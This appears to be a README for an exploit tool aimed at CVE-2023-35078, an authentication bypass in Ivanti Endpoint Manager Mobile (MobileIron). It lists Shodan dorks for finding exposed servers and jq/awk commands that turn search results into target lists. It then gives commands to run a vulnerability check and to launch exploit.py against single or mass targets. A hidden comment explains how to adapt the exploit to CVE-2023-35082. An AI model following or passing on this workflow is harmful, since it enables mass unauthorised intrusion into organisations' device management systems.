 # CVE-2023-35078
![](https://img.shields.io/static/v1?label=Product&message=MobileIron&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Ivanti%20Endpoint%20Manager%20Mobile%20through%2011.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.0.%20Authentication%20Bypass&color=red)



- Shodan dorks:
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
Download the shodan json file and extract all IP addresses from it.

- Transform shodan json to _data_file_ <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How to run a check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/>
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
 CVE-2023-35082: Just change "aad" to "asfV3" and the exploit works.-->
